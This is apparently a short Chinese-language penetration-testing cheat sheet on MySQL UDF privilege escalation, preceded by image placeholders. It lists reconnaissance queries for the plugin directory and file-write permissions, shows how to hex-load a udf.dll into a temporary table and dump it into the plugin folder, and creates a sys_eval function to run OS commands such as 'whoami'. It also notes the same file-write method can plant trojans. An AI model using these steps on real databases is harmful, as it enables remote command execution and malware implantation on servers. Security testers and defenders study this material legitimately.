





## MySql

#### 1. 查看mysql信息

 

查看应用架构：`select @@version_compile_os, @@version_compile_machine;`

 

查看数据目录：`select @@datadir;`

 

查看版本：`select version();`

 

查看插件目录：`select @@plugin_dir;`  `show variables like '%plugin%';`

 

查看是否有写权限：`show global variables like '%secure%';`

 

#### 2. 写入文件

写入文本到指定文件：`select '111' into dumpfile 'C:\\1.txt';`  （需要注意目录是否存在并有权限）

> outfile 函数：可以导出多行数据
> 
> dumpfile 函数：只能导出一行数据

 

创建临时表：`create table udftemp(data longblob);`

将udf.dll文件进行二进制编辑，然后复制十六进制文本。

将十六进制文本插入到临时表：`insert into udftemp(data) values (0x十六进制);` （注意要加0x）

再将数据dump到插件目录下：`select data from udftemp into dumpfile "C:\\phpStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll";`

只要能写入文件，就可以使用此方式写入任意文件包括木马文件。

 

#### 3. 创建函数

`create function sys_eval returns string soname 'udf.dll';`

 

执行命令：`select sys_eval('whoami');`

 

 

mssql帐户：`sa` 或者 `系统管理员administrator`